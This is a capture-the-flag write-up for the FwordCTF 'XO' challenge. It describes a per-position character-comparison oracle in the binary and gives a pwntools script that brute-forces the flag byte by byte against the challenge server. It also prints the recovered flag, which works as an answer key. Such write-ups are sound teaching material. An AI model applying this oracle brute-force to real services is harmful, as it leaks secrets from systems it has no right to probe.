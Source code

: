 # XO

Whatever we input, the binary searches for characters in our input that are the same as a character of the flag in the same position. It prints the number of characters before the first occurrence of this. For example, if the flag was FwordCTF{}, then...

Fgjehrfd -> 0
sws -> 1
gggg -> 4

Using this, we can run a simple byte by byte bruteforce in order to get the data in flag.txt -  NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}

Adding the flag format, we get the flag, FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}

I used backticks for padding since they were pretty much guaranteed not to be in the flag - we can send backtick_padding + char and bruteforce "char" until the number returned equals the number of backticks, the character of the flag in that position would be the char where the server returned number is equal to the number of backticks.

#### Flag: FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}
```py
from pwn import *
import time
printable = "?_qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890!@#$%^&*(){},./<~\\"
host = ('xo.fword.wtf', 5554)
def getnum(string):
    while True:
        try:
            p = remote(*host)
            break
        except socket.gaierror:
            time.sleep(1)
    #p = process("./task")
    p.recvline()
    p.sendline(string)
    ans = int(p.recvline())
    p.close()
    return ans
flag = ''
i = len(flag)
while '}' not in flag:
    pad = '`'*i 
    for char in printable:
        totry = pad + char
        print(totry)
        if getnum(totry) == i:
            flag += char
            print(f"Flag: {flag}")
            break
    else:
        print(flag)
        quit()
    i += 1
    ```
